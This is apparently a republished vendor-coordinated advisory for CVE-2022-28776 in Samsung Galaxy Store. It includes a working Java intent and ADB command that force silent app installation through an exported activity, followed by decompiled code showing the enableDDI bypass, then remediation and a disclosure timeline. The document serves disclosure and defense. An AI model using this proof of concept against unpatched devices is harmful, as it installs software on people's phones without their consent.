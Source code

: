 ```yaml
---
layout: cve
title: "Samsung Galaxy Store Arbitrary Application Install"
cve_id: "CVE-2022-28776"
date: 2022-04-01
reference: 
  - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-28776
  - https://security.samsungmobile.com/serviceWeb.smsb?year=2022&month=4
description: "Improper access control vulnerability in Galaxy Store prior to version 4.5.36.4 allows attacker to install applications from Galaxy Store without user interactions."
---
```


#### Original post: [https://labs.f-secure.com/advisories/samsung-galaxy-any-app-can-install-any-app/](https://labs.f-secure.com/advisories/samsung-galaxy-any-app-can-install-any-app/)

|    **Product**    | Galaxy Store prior to version 4.5.36.4 |
|    **Severity**   |                  High                  |
| **CVE Reference** |             CVE-2022-28776             |
|      **Type**     |      Automatic Application Install     |

## Description

F-Secure looked into exploiting the Samsung Galaxy S21 device for Austin Pwn2Own 2021. The Galaxy App Store contained an issue with how it handled specific intents. When an intent was sent to one of three exported activities, the Galaxy App Store would create a new intent, while taking all of the calling intent's extras and packaging them with the new intent. This new intent could then be manipulated in such a way that the Galaxy App Store would be forced to automatically install other applications onto the victim's device without consent.

## The Exploit

The following exported activities could have been used to exploit this issue:

* `com.sec.android.app.samsungapps.viewpager.InterimActivity`
* `com.sec.android.app.samsungapps.interim.essentials.InterimEssentialsActivity`
* `com.sec.android.app.samsungapps.downloadableapps.DownloadableAppsActivity`

As an example, the following Java code could have been used by a third party application to automatically install the application "Pokemon Go". This code uses the Java class `com.sec.android.app.samsungapps.viewpager.InterimActivity`:

```
Intent intent = new Intent();
intent.setComponent(new ComponentName("com.sec.android.app.samsungapps", "com.sec.android.app.samsungapps.viewpager.InterimActivity"));
intent.putExtra("directcall", true);
intent.putExtra("isInternal", true);
intent.putExtra("directInstall", true);
intent.putExtra("installReferrer", "com.sec.android.app.samsungapps");
intent.putExtra("directOpen", true);
intent.putExtra("GUID", "com.nianticlabs.pokemongo.ares");
startActivity(intent);
```

Alternatively, the following ADB command could have been used to install the application "Pokemon Go". This command also uses the Java class `com.sec.android.app.samsungapps.viewpager.InterimActivity`:

```
am start -n com.sec.android.app.samsungapps/com.sec.android.app.samsungapps.viewpager.InterimActivity --ez directcall true --ez isInternal true --ez directInstall true --es installReferrer com.sec.android.app.samsungapps --ez directOpen true --es GUID com.nianticlabs.pokemongo.ares
```

## Technical Details

Each of the exploitable exported classes contains code that parses the calling intent and creates:

* a data URI that starts with `samsungapps://CategoryList/`
* extracts the intent extras and adds an additional extra Boolean `isFromInterim` and sets it to True (though this extra does not get used later)

The data URI and extras are passed to class `com.sec.android.app.util.DeeplinkUtil` method `openInternalDeeplink`. To show this, below is the code found in class `com.sec.android.app.samsungapps.interim.essentials.InterimEssentialsActivity` method `a`:

```
private void a() {
    Bundle extras = getIntent().getExtras();
    if (extras == null) {
        extras = new Bundle();
    }
    extras.putBoolean(DeepLink.EXTRA_DEEPLINK_IS_FROM_INTERIM, true);
    DeeplinkUtil deeplinkUtil = new DeeplinkUtil(this);
    deeplinkUtil.openInternalDeeplink("samsungapps://CategoryList/" + Constant.GALAXY_ESSENTIALS, extras);
}
```

`openInternalDeepLink` creates a new intent, adds the previously captured extras to the intent and adds an extra string sender value of `com.sec.android.app.samsungapps`. Thenewly created intent is sent to class `com.sec.android.app.samsungapps.deeplink.DeepLinkFactory` method `createDeepLink` which will return a deeplink, and set the deeplink as an internal deeplink:

```
public boolean openInternalDeeplink(String str, Bundle bundle) {
    if (!Common.isValidString(str)) {
       return false;
    }
    Intent intent = new Intent();
    intent.putExtra("sender", this.activity.getPackageName());
    intent.setData(Uri.parse(str));
    if (bundle != null) {
        intent.putExtras(bundle);
    }
    DeepLink createDeepLink = DeepLinkFactory.createDeepLink(intent);
    if (createDeepLink == null) {
        return false;
    }
    createDeepLink.setIsInternal(true);
    DeeplinkManager.getInstance().setInternalDeeplink(true);
    DeepLinkFactoryUtil.sendDeeplinkLaunchingLog(createDeepLink.getDeeplinkUrl(), true);
    return createDeepLink.runInternalDeepLink(this.a);
}
```

`createdeeplink` creates a "Product Detail Deeplink" deeplink. This deeplink contains all of the extras that were set in the intent:

```
public static DeepLink createDeepLink(final Intent intent) {
    try {
        final boolean booleanExtra = intent.getBooleanExtra("directcall", false);
        final String stringExtra = intent.getStringExtra("GUID");
        final Bundle extras = intent.getExtras();
        if (booleanExtra && stringExtra != null && stringExtra.length() != 0) {
            final StringBuilder sb = new StringBuilder();
            sb.append("[GADeepLink] ::directcall::");
            sb.append(stringExtra);
            AppsLog.d(sb.toString());
            return DeepLinkFactoryUtil.createProductDetailDeepLink(stringExtra, extras);
        }
```

DeepLink parameters are set via class `com.sec.android.app.samsungapps.utility.deeplink`. DeepLink which sets different values based on the passed intent extras, such as `directInstall`:

```
public void initialize(Bundle bundle) {
    ...
    this.u = getBundleBoolean(bundle, EXTRA_DEEPLINK_DIRECT_INSTALL, false);
    ...
```

The application then automatically processes the newly created "Product Detail Deeplink" deeplink as if it was a standard deeplink. While processing, the class `com.sec.android.app.samsungapps.deeplink. DetailPageDeepLink` method `runInternalDeeplink` is called, which looks for intent extras such as `directInstall`:

```
public boolean runInternalDeepLink(Context context) {
    AppsLog.d(this.a + "::runInternalDeepLink::");
    if (launchApp(context, getDetailID())) {
        return true;
    }
    if (this.isStickerApp) {
        DetailPageHelper.launchStickerDetailFromDeeplink(context, getDetailID(), this.d, getAdSource(), getDeeplinkUrl());
        return true;
    }
    DetailConstant.DETAIL_TYPE detail_type = DetailConstant.DETAIL_TYPE.COMMON;
    if (isForGear()) {
        detail_type = DetailConstant.DETAIL_TYPE.GEAR;
    } else if (a()) {
        detail_type = DetailConstant.DETAIL_TYPE.GAME;
    }
    DetailPageHelper.launchDetailFromDeeplink(context, getDetailID(), detail_type, this.mSignId, this.mQueryStr, getAdSource(), this.b, getSender(), isDirectInstall(), isDirectOpen(), getType(), this.f, getDeeplinkUrl(), this.mEncodedReferrer);
    return true;
}
```

Similar to the bug outlined in [https://yogehi.github.io/cves/cve-2022-22288.html](https://yogehi.github.io/cves/cve-2022-22288.html), class `com.sec.android.app.samsungapps.deeplink.DetailPageDeepLink` method `putDetailCommonExtra` is eventually called again:

```
public void putDetailCommonExtra(Context context) {
    ...
    if (isDirectInstall() && appManager.enableDDI(getSender(), getDetailID(), DeeplinkManager.getInstance().getInternalDeeplink())) {
        this.intent.putExtra(DeepLink.EXTRA_DEEPLINK_DIRECT_INSTALL, isDirectInstall());
        this.intent.putExtra("sender", getSender());
    }
```

`enableDDI` is called again, but this time it will return true due to the calling intent being an internal deeplink:

```
public boolean enableDDI(String sender, String appId, boolean isInternalDeeplink) {
    if (isDDITestMode()) {
        return true;
    }
    if ((!isGalaxyStore(sender) || !isInternalDeeplink) && !isWhiteListAppForOneClick(sender, appId)) {
        return false;
    }
    return true;
}
```

Since `enableDDI` returns true, the target application gets installed.

## Remedial Action

Samsung has released the Galaxy Store version 4.5.36.4 which addresses this issue. Users should update their Galaxy Store application to the latest version available.

## Credits

This issue was discovered by Ken Gannon.

## Timeline

|    **Date**    | **Summary** |
|   17/10/2021   | Issue disclosed to Samsung Mobile Security |
|   17/10/2021   | Issue assigned to a Samsung Security Analyst |
|   22/11/2021   | Samsung confirms the vulnerability and rates it as a critical risk issue |
|   13/02/2022   | Patch released, Samsung initiates process for bug bounty reward |
|   12/04/2022   | CVE Assigned |
|   04/05/2022   | Advisory Published |